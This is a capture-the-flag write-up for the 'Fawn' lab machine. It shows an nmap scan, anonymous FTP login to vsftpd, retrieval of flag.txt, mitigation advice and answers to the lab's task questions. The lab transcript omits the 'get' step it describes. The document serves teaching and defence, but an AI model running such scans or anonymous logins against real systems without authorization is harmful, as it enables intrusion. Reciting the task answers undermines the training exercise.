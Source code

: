 # Fawn

---

## Setup

After connecting to the VPN and spawning the machine, I always store the IP address of the target machine in an environment variable in case I lose it.

```shell
└─$ export IP=10.129.188.254
└─$ echo $IP
10.129.188.254
```

To make sure that the target machine is up and running, we can use the command `ping` to test our connection

```shell
└─$ ping $IP
PING 10.129.188.254 (10.129.188.254) 56(84) bytes of data.
64 bytes from 10.129.188.254: icmp_seq=1 ttl=63 time=132 ms
64 bytes from 10.129.188.254: icmp_seq=2 ttl=63 time=67.0 ms
64 bytes from 10.129.188.254: icmp_seq=3 ttl=63 time=66.5 ms
64 bytes from 10.129.188.254: icmp_seq=4 ttl=63 time=67.1 ms
^C
```

---

## Scanning

First, I run a scan on the target machine to identify open ports and running services that might be vulnerable using [nmap](https://nmap.org) with the following flags:
`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-p-`: Scan all possible ports
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
└─$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

After the scan is complete, port 21 was found to be running FTP service that allows anonymous login with no password according to the scan result:

```shell
Nmap scan report for 10.129.188.254
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
```

---

## FTP Exploitation

FTP "[File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol)" according to wikipedia:
>A standard communication protocol used for the transfer of computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, normally in the form of a username and password, but can connect anonymously if the server is configured to allow it.

We can start by trying to connect to the FTP server with anonymous username and no password by using the format `[ftp://[USER[:PASSWORD]@]HOST[:PORT]/PATH[/][;type=TYPE]]` and see what comes out.

```shell
└─$ ftp ftp://anonymous@$IP           
Connected to 10.129.188.254.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> 
```

and we're in! now we start to navigate in the directories and see if we find somethin interesting, and right off the bat after using `ls` we immediately see the file we're interested in `flag.txt` with our guest (anonymous) privs. Now we can download this file to our local machine simply by using the command `get` and then disconnect from the server by using the fancy `bye` command

```shell
ftp> ls
229 Entering Extended Passive Mode (|||43051|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> bye
221 Goodbye.

$ cat flag.txt
<FLAG>
```

---

## Vulnerability

In this machine, the vulerability that allowed us to exploit it is that the FTP service allowed anonymous login with a blank password, allowing us to access files that this host might not want us to access, It's better to disable this feature or protect sensitive files and requrie an authenticated login to access them.

Also it is safer to encrypt the contents of the FTP server and secure it with SSL/TLS (FTPS) or SFTP (SSH File Transfer Protocol)

---

## Tasks & Answers

**Task 1**: What does the 3-letter acronym FTP stand for?
> File Transfer Protocol

**Task 2**: Which port does the FTP service listen on usually?
> 21

**Task 3**: What acronym is used for the secure version of FTP?
> SFTP

**Task 4**: What is the command we can use to send an ICMP echo request to test our connection to the target?
> ping

**Task 5**: From your scans, what version is FTP running on the target?
> vsftpd 3.0.3

**Task 6**: From your scans, what OS type is running on the target?
> Unix

**Task 7**: What is the command we need to run in order to display the 'ftp' client help menu?
> ftp -h

**Task 8**: What is username that is used over FTP when you want to log in without having an account?
> anonymous

**Task 9**: What is the response code we get for the FTP message 'Login successful'?
> 230

**Task 10**: There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system. 
> ls

**Task 11**: What is the command used to download the file we found on the FTP server?
> get

**FLAG**:
> *******************************5

---

## Blue Team Suggestions

- Simply do not allow access to sensitive files and data to anonymous logins on FTP servers.